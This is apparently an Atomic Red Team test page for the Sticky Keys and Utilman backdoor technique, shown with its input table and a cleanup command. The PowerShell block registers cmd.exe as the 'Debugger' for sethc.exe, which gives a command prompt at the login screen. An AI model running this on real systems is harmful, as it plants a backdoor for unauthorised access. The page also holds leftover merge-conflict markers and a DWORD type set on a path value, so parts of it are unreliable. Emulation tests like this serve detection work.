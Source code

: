 <br/>
<br/>

## Atomic Test #2 - Attaches Command Prompt As Debugger To Process - sethc
This allows adversaries to execute the attached process

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_executable | File You Want To Attach cmd To | String | sethc.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe"
$Value = "C:\windows\system32\cmd.exe"
$Name = "Debugger"
IF(!(Test-Path $registryPath))
 {
  New-Item -Path $registryPath -Force
  New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType DWORD -Force
 }
ELSE
 {
  New-ItemProperty -Path $registryPath -Name $name -Value $Value
 }
```

#### Cleanup Commands:
```
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /f
```

<<<<<<< HEAD




=======
>>>>>>> parent of 511bb87... Add Dependencies section to test Yaml and support to use them in the PS execution framework (#772)
<br/>
<br/>

## Atomic Test #3 - Attaches Command Prompt As Debugger To Process - utilman
This allows adversaries to execute the attached process
